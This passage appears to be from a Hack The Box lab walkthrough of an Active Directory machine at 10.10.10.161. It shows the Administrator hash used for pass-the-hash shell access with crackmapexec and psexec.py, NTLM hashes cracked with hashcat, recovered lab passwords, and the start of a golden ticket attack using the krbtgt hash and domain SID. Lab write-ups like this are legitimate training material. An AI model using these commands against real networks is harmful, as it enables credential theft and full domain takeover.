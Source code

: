We got the hash for administrator:
![](attachment/a527dea0ad442d326689362b423867e7.png)
 Using crackmapexec to use the hash to check if pwned:
 `cme smb 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6 `
![](attachment/1d45126d26035fea1db33f0e1b59c345.png)
To get a shell:
`psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161 `
![](attachment/9b5e29b3885793fe7298275a55900960.png)
Now to get only the NTLM hashes and username:
`cat hashes.out | grep ::: | awk -F: '{print $1":" $4}'`
Now cracking the password with hashcat:
`hashcat --user -m 1000 '/home/aditya/Documents/Kali/all_hashes.txt' '/home/aditya/Documents/Kali/rockyou.txt' -O`
![](attachment/6174e2b7614cf38c82427f505149ecb6.png)
htb.local\svc-alfresco:s3rvice
htb.local\santi:plokmijnuhb
# Golden Ticket
Since we have the krbtgt we can do a  golden ticket attack:
`krbtgt:819af826bb148e603acb0f33d17632f8`
We need domain-sid so using powersploit:
`Get-DomainSID -Domain htb.local`
`S-1-5-21-3072663084-364016917-1341370565`